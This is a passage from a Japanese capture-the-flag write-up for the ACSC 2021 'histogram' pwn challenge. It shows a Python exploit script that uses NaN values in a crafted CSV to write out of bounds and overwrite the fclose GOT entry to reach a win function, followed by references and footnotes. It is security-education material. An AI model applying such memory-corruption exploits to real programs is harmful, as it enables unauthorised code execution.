 ```python
    "map":elf.symbols.map
}

# NaN, local_18
#   sVar2 = (local_18 / 10) - 1
#   write to: (map + ((long)(int)sVar1 * 0x1e + (long)(int)sVar2) * 4)
#   write to: map + (-1 * 0x1e + sVar2) * 4
#   map - got_fclose = 4 * (0x1e - sVar2)
#   offset = 4 * (0x1e - sVar2)
#   sVar2 = 0x1e - diff // 4

offset = addrs["map"] - addrs["got_fclose"]
sVar2 = 0x1e - offset // 4
local_18 = (sVar2 + 1) * 10


diff = addrs["win"] - addrs["plt_fclose"]
payload = f"NaN, {local_18}\n" * diff
with open("./payload.csv", "w") as f:
    f.write(payload)

```

## Flag

ローカルでやっただけなので無し

## Resources

- [acsc-challenges-2021-public/pwn/histogram/distfiles at main · acsc-org/acsc-challenges-2021-public](https://github.com/acsc-org/acsc-challenges-2021-public/tree/main/pwn/histogram/distfiles): 問題ファイル
- [754-2008 - IEEE Standard for Floating-Point Arithmetic | IEEE Standard | IEEE Xplore](https://ieeexplore.ieee.org/document/4610935): 浮動小数点の規格を決めているIEEE 754
- [CVTTSD2SI — Convert with Truncation Scalar Double-Precision Floating-Point Value to Signed Integer](https://www.felixcloutier.com/x86/cvttsd2si): intへキャストする際の命令の仕様
- [Asian Cyber Security Challenge (ACSC) write-up - Qiita](https://qiita.com/kusano_k/items/dff6be1658c9a9baac3f#histogram-pwn-200): kusano_kさんのWriteup、NaNの計算やキャストに対する挙動が書いてある

---

[^1]: おそらくNaNとの比較が常にFalseになるんだと思う

[^2]: 解き直しにおいては競技をしている時よりあらゆるリソースに余裕があるので仕様や命令レベルで調査と検証をしているが、おそらくgdbで値を覗いたり軽くC言語のコードを書いて検証した方が早い

